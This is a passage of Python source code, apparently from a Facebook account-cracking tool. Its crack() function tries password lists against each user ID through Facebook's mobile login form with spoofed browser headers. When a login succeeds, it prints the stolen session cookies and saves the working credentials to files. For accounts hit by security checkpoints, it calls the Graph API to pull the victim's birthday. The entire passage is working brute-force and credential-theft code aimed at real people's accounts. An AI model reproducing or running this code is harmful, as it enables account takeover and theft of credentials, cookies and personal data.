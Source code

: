   loop += 1

def crack(uid, pwx, host, **kwargs):
  try:
    ua = open(".ua", "r").read()
  except IOError:
    ua = ("Mozilla/5.0 (Linux; Android 5.0; ASUS_Z00AD Build/LRX21V) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/37.0.0.0 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]")
  global ok, cp, loop, token
  sys.stdout.write(
    "\r [*] crack %s/%s ok:-%s - cp:-%s "%(loop, len(id), len(ok), len(cp))
  ); sys.stdout.flush()
  try:
    for pw in pwx:
      kwargs = {}
      pw = pw.lower()
      ses = requests.Session()
      ses.headers.update({"origin": host, "accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7", "accept-encoding": "gzip, deflate", "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8", "user-agent": ua, "Host": "".join(bs4.re.findall("://(.*?)$",host)), "referer": host+"/login/?next&ref=dbl&fl&refid=8", "cache-control": "max-age=0", "upgrade-insecure-requests": "1", "content-type": "application/x-www-form-urlencoded"})
      p = ses.get(host+"/login/?next&ref=dbl&refid=8").text
      b = parser(p,"html.parser")
      bl = ["lsd","jazoest","m_ts","li","try_number","unrecognized_tries","login"]
      for i in b("input"):
        try:
          if i.get("name") in bl:kwargs.update({i.get("name"):i.get("value")})
          else:continue
        except:pass
      kwargs.update({"email": uid,"pass": pw,"prefill_contact_point": "","prefill_source": "","prefill_type": "","first_prefill_source": "","first_prefill_type": "","had_cp_prefilled": "false","had_password_prefilled": "false","is_smart_lock": "false","_fb_noscript": "true"})
      gaaa = ses.post(host+"/login/device-based/regular/login/?refsrc=https%3A%2F%2Fmbasic.facebook.com%2F&lwv=100&refid=8",data=kwargs)
      if "c_user" in ses.cookies.get_dict().keys():
        kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
        print("\r  \033[0;92m* --> %s|%s|%s\033[0;97m"%(uid, pw, kuki))
        ok.append("%s|%s"%(uid, pw))
        open("OK/%s.txt"%(tanggal),"a").write("  * --> %s|%s\n"%(uid, pw))
        break
      elif "checkpoint" in ses.cookies.get_dict().keys():
        try:
          token = open("login.txt", "r").read()
          with requests.Session() as ses:
            ttl = ses.get("https://graph.facebook.com/%s?access_token=%s"%(uid, token)).json()["birthday"]
            month, day, year = ttl.split("/")
            month = bulan_ttl[month]
            print("\r  \033[0;93m* --> %s|%s|%s %s %s\033[0;97m"%(uid, pw, day, month, year))
            cp.append("%s|%s"%(uid, pw))
            open("CP/%s.txt"%(tanggal),"a").write("  * --> %s|%s|%s %s %s\n"%(uid, pw, day, month, year))
            break
        except (KeyError, IOError):
          day = (" ")
          month = (" ")
          year = (" ")
        except:pass
        print("\r  \033[0;93m* --> %s|%s\033[0;97m        "%(uid, pw))
        cp.append("%s|%s"%(uid, pw))
        open("CP/%s.txt"%(tanggal),"a").write("  * --> %s|%s\n"%(uid, pw))
        break
      else:
        continue
